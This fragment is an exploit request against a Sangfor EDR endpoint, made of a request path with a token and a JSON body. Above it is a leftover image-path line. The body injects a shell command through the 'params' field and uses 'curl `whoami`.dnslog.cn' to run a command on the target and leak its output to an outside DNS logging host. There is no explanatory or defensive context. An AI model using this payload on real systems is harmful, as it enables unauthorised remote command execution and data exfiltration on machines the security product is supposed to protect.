 /api/edr/sangforinter/v2/cssp/slog_client?token=eyJtZDUiOnRydWV9
{"params": "w=123"'1234123'"|curl `whoami`.dnslog.cn"}
